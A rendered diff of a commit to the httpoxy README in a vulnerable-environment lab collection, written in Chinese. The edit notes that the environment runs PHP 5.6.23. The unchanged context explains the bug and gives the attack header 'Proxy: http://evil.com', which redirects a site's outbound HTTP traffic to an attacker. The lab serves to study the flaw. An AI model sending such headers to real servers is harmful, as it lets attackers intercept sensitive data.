

Before and after one commit to vulhub/vulhub, a Markdown page: httpoxy/README.md, 2 parts joined by grey strips. Drawn GitHub-style; pictures changed too: httpoxy/2.png.

```diff
--- a/httpoxy/README.md
+++ b/httpoxy/README.md
@@ -6,7 +6,7 @@
 
 简单来说，根据RFC 3875规定，fastcgi要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。
 
-PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。
+PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23。
 
 ## 测试流程
 
```
